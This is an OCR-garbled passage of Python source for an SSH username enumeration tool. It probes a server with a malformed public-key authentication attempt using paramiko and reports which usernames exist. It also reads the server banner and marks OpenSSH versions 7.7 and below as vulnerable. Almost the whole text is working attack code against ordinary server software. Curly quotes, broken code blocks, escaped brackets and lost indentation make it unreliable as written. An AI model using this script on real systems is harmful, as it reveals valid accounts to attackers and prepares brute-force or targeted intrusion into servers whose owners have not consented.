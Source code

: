 ```
“”"

sock = create_socket(hostname, port)

if not sock:

return

```
transport = paramiko.transport.Transport(sock)

try:
    transport.start_client()
except paramiko.ssh_exception.SSHException:
    return print(Color.string(f'[!] SSH negotiation failed for user {username}.', color='red'))

try:
    transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
except paramiko.ssh_exception.AuthenticationException:
    print(f"[+] {Color.string(username, color='yellow')} found!")
except InvalidUsername:
    if not verbose:
        return
    print(f'[-] {Color.string(username, color="red")} not found') 
```

def main(**kwargs):

“”" main entry point for the program “”"

sock = create_socket(kwargs.get(‘hostname’), kwargs.get(‘port’))

if not sock:

return

```
banner = sock.recv(1024).decode()

regex = re.search(r'-OpenSSH_(?P&lt;version&gt;\d\.\d)', banner)
if regex:
    try:
        version = float(regex.group('version'))
    except ValueError:
        print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {regex.group("version")}')
    else:
        ver_clr = 'green' if version &lt;= 7.7 else 'red'
        print(f"[+] {Color.string('OpenSSH', color=ver_clr)} version {Color.string(version, color=ver_clr)} found")
else:
    print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {Color.string(banner, color="yellow")}')    
